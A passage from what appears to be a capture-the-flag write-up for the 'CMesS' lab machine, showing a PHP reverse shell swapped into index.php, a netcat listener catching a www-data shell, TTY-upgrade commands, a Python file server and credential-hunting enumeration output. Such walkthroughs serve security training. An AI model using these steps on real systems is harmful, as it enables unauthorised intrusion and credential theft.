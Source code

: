```bash
  'language' => 'en',
  'admin_email' => 'andre@cmess.thm',
  'rewrite' => true,
);
```

!<p>PentestMonkey Reverse Shell replacing <code>index.php</code> content.</p>

![image](https://github.com/user-attachments/assets/a6721992-992b-4aa0-ad48-9a5edcc5e3bb)

<p>http://cmess.thm/index.php</p>


```bash
~/CMesS# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.31.7 47738
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:31:51 up  1:06,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@cmess:/$ ^Z
[2]+  Stopped                 nc -nlvp 9001
~/CMesS# stty raw -echo; fg
nc -nlvp 9001

www-data@cmess:/$
```

```bash
~/CMesS# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
...
[+] Finding possible password variables inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
/var/www/html/config.php:  'admin_email' => 'andre@cmess.thm',
/var/www/html/src/core/install/install.form.php:	<input name="db_host" value="localhost" placeholder="Hostname" required>
/var/www/html/src/core/install/install.php:        $GLOBALS['config']['admin_email'] = $_POST['adm_email'];
/var/www/html/src/core/install/install.php:    $host=$_POST['db_host'];$db_user=$_POST['db_user'];


[+] Finding 'username' string inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
/var/www/html/src/blog/controllers/blog.php:      $res = $db->query("SELECT username FROM user WHERE id='$user_id';");
/var/www/html/src/blog/controllers/blog.php:    $res = $db->get("SELECT username,id from user WHERE id=? OR username=?",[$user_id,$user_id]);
/var/www/html/src/core/classes/session.php:    if (isset($_POST['username']) && isset($_POST['password']) && session::waitForLogin()==0) {
/var/www/html/src/core/models/post.php:      (SELECT username FROM user WHERE post.user_id=id) as author
/var/www/html/src/core/models/user.php:    return $db->query("UPDATE user SET username=? where id=?;",[$name,$id]);
/var/www/html/src/core/tables/user-post.php:      'qoptions'=>"SELECT id, username FROM user","edit"=>false
/var/www/html/src/core/tables/user.php:    'username'=> [
/var/www/html/src/core/views/admin/myprofile.php:    <input name="gila_username" value="<?=session::key('user_name')?>" class="gm-3" />
...
```